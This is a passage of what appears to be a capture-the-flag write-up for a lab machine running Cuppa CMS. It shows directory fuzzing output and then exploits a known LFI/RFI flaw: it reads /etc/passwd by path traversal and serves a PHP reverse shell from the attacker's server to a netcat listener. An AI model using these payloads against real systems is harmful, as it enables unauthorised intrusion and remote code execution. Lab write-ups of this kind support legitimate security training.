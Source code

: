 ```bash
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Extensions       : .html .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

administrator           [Status: 301, Size: 335, Words: 20, Lines: 10, Duration: 157ms]
index.html              [Status: 200, Size: 418, Words: 45, Lines: 16, Duration: 158ms]
:: Progress: [120000/120000] :: Job [1/1] :: 251 req/sec :: Duration: [0:08:04] :: Errors: 8 ::
```
/Administrator is a login page for "Cuppa CMS". 

I try to log in to this with the 2 sets of creds I found. Neither work. Neither does basic SQLi. Inspecting the page source reveals a commented line of html that looks like a password reset form. I intercept the page response in burp and uncomment the line, and indeed this does load a password reset function. This prompts me an email address, I have access to Miles' email account, maybe I can reset his password? Interestingly, I can't actually find his exact email address in Squirrelmail. I take a couple guesses, but I don't manage to get an email in the inbox.

![forgot-password-burp](https://user-images.githubusercontent.com/112681383/205479022-4d7666e0-10db-4d6d-a4c9-f101654cfb25.png)
![forgot-password-form](https://user-images.githubusercontent.com/112681383/205479024-eab298a5-50c1-42c8-8510-ec2441cef916.png)

I search exploit-db for "Cuppa CMS" which brings back one lone result, for Local & Remote File Inclusion. Reading the exploit tells me that the url `http://{TARGET IP}/{CUPPA DIRECTORY}/alerts/alertConfigField.php?urlConfig=` is vulnerable to LFI/RFI. 

https://www.exploit-db.com/exploits/25971

I give it a try with `http://$IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`, and to my great joy, this just works! No authentication needed.

![LFI-works](https://user-images.githubusercontent.com/112681383/205479103-c1b3dd81-6739-4837-879d-140fe2899493.png)

I test the RFI by setting up a python server on my attack box with `python3 -m http.server 80` and using the payload `urlConfig=http://{MY IP}/` and sure enough I get a hit. Now I just need to host a reverse shell and get the site to execute it. I use the classic [php shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) from PentestMonkey, and put it in my server directory. I start up a netcat listener `nc -lvnp 9001` and use the RFI payload `urlConfig=http://{MY IP}/shell.php` and sure enough, I get a shell as www-data! Now to escalate privileges.

![Reverse-Shell-1](https://user-images.githubusercontent.com/112681383/205479257-7b4c1dee-d222-46f6-a4ed-77e2ad4fa2eb.png)

## Priv Esc
*Note: The method I first used for priv esc I don't think was the intended method. But it used a CVE from 2017, and the box came out in 2020 so to me it's fair game. I'll go over the intended priv esc after this.*
